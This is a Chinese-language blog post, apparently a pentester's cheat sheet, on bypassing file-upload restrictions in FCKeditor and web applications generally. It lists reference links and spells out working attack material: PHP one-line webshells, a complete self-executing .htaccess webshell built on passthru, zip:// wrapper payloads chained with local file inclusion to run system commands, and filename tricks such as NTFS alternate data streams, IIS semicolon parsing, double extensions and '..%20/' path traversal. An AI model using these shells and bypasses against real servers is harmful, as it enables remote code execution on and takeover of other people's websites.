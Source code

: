 ```yaml
---
layout:     post
title:      fckeditor各版本绕过
date:       2016-08-12
summary:    fckeditor各版本绕过
categories: web
tags:
 - fckeditor
 - web
 - upload
---
```


### 0x00 fckeditor上传漏洞总结

    http://sec.chinabyte.com/206/13708206.shtml
    http://www.cnbraid.com/2015/07/09/fckeditor/
    http://www.it610.com/article/1842939.htm
    http://secureyes.net/nw/assets/File-Upload-Vulnerability-in-FCKEditor.pdf <=2.6.4

### 0x01 asp

    <=2.6.4
        http://secureyes.net/nw/assets/File-Upload-Vulnerability-in-FCKEditor.pdf
    2.6.6
        http://www.hack80.com/thread-320-1-1.html
        http://www.qhwins.com/ShowNews/?11-20109214030542523.html
    2.6.8
        http://www.freebuf.com/vuls/6408.html

### 0x02 php

    <=2.6.4
        http://secureyes.net/nw/assets/File-Upload-Vulnerability-in-FCKEditor.pdf

### 0x03 fckeditor经典尝试后缀

    1>将后缀改成.php.pjpg
    2>将后缀改成.html
    3>将后缀改成.lnk

### 0x04 其它上传技巧
    
    0>其他关于上传技巧的汇总
        https://www.lshack.cn/?p=152

    1>上传时,延迟一下再上传,有时能bypass admin,用到firefox tamper插件
        https://www.youtube.com/watch?v=ndeYnMoFPx8
        管理员登录绕过
            https://www.youtube.com/watch?v=UO-vzWFctTA
            https://www.youtube.com/watch?v=a5fm629s8Ao
                firefox noredirect插件
    2>双文件上传
    3>上传以图片后缀名为后缀的压缩文件,文件实际是一个webshell.php文件的压缩文件(zip),利用lfi漏洞并将lfi要包含
      的文件的参数赋值为:
        zip://archive.zip#webshell.php
        或
        zip://archive.zip#webshell.php&param1=system&param2=ls   ===>这里对应webshell.php为:
            <?php $_GET['param1']($_GET['param2']);?>
      这里适用的情况为:
        a>可上传任意内容文件(通过修改Content-Type等达到目的),但文件会被重命令为以png为后缀文件
        b>找到了lfi漏洞,但是lfi漏洞不能包函.|./|..|..\|...等情况
      更多细节:
        https://www.securusglobal.com/community/2016/08/19/abusing-php-wrappers/
    4>上传图片被resize等修改时,绕过方法: 
        a)利用上传前和上传后的文件对比找出没有变化的字符串,将其写payload
            http://www.freebuf.com/articles/web/54086.html
        b)老外的方法,比a)中的要好
            https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/
        用法:x.php?0=system post data:1=whoami,上面链接中的payload见如下phppayload
        c)上面b中的条件限制为png且大小为32x32,jpg绕过方法
            http://www.blogs8.cn/posts/WiA3bxU

<a href="https://www.idontplaydarts.com/images/phppng.png">phppayload</a>
<a href="https://raw.githubusercontent.com/3xp10it/pic/master/phppng.png">phppayload_bak_link</a>

    5>https://www.nds.rub.de/media/attachments/files/2012/11/File-in-the-hole.pdf
        多种上传技巧:
        a)将.htaccess本身作为webshell,解析本身.htaccess作为php
            http://www.justanotherhacker.com/2011/05/htaccess-based-attacks.html
            -----------------------自解析.htaccess--------------------------------
            # Self contained .htaccess web shell - Part of the htshell project
            # Written by Wireghoul - http://www.justanotherhacker.com

            # Override default deny rule to make .htaccess file accessible over web
            <Files ~ "^\.ht">
            Order allow,deny
            Allow from all
            </Files>

            # Make .htaccess file be interpreted as php file. This occur after apache has interpreted
            # the apache directoves from the .htaccess file
            AddType application/x-httpd-php .htaccess

            ###### SHELL ###### <?php echo "\n";passthru($_GET['c']." 2>&1"); ?>###### LLEHS ######
            -----------------------自解析.htaccess--------------------------------

        b)NTFS ADS
            1."file.asp::$data"=="file.asp"
            2."/folder:$i30:$Index_allocation"=="/folder"
            3.".htaccess:.jpg" -> make empty ".htaccess"=="HTACCESS~1"
                适用于.htaccess不让上传情况下,估计一般情况下都不让上传隐藏文件,这时通过burp将文件名名改成
                .htaccess:.jpg则可上传.htaccess文件
            4.通过文件上传来创建文件夹(windows下)
                https://www.youtube.com/v/Ws2JrZG679Q?version=3&hl=en_US&rel=0&vq=hd720
                detail:将文件名通过burp改成file::$Index_Allocation或者是file:$I30:$Index_Allocation,这样就会在服务器上新建file文件夹
        c)绕过../和..\保护:
            https://www.youtube.com/v/HjS6Pob5t34?version=3&hl=en_US&rel=0&vq=hd720
            ../改成.. /(..%20/)
            ..\改成.. \(..%20\)
        d)iis:
            file.asp;.jpg以asp解析
            /folder.asp/file.txt以asp解析
        e)文件名后有被忽略字符
            "test.asp . .. ." == "test.asp" 
            "test.php<>" == "test.php"
        f)在图片文件的文件属性中添加copyright属性为:
            <?=$_GET[0]($_POST[1]);?>
            这个暂时没有找到工具,好像要用photoshop
        g)"file.p.phphp"==>"file.php" 
        h)配置有误情况下:
            "/file.jpg/index.php"会将file.jpg按照php解析
        i)常见content-type"白名单":
            image/gif
            image/jpeg
            image/pjpeg

    6.上传.user.ini文件来解析图片或隐藏webshell[除.htaccess外的方法]
        https://ha.cker.in/1097.seo
    
    7.上传绕过waf
        https://github.com/3xp10it/sectec/blob/master/%E4%B8%8A%E4%BC%A0%E7%BB%95%E8%BF%87waf.pdf

    8.对图片长宽有要求的尝试突破上传方法
        https://forum.90sec.org/forum.php?mod=viewthread&tid=10503&extra=page%3D1

